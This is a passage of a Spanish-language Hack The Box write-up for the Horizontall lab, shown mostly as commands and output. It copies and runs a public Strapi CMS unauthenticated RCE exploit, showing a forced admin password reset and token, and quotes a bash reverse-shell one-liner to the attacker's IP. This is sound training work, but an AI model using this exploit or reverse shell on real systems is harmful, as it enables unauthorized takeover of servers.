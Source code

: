 
```shell
❯ searchsploit -m multiple/webapps/50239.py
  Exploit: Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50239
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50239.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /home/juan/Desktop/Maquinas/HTB/Horizontal/exploits/50239.py


❯ ls
 50239.py
```

Ejecutamos el exploit y funciona, podemos ejecutar código pero a ciegas:
```shell
 python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNzQzMzQ0MTU1LCJleHAiOjE3NDU5MzYxNTV9.ZUIz5bw_IDIjlxL5J0MteEx7UMUrg-nSWYk-UdSTWqk

```

Confirmamos que la ejecución funciona:


![](/assets/img/Anexos/Pasted%20image%2020250330162114.png)

En mi caso, no me dejaba hacerlo `/bin/bash -i >& /dev/tcp/10.10.14.4/4444 0>&1` por lo que me monto un servidor con `pyhton` donde tengo el siguiente archivo.
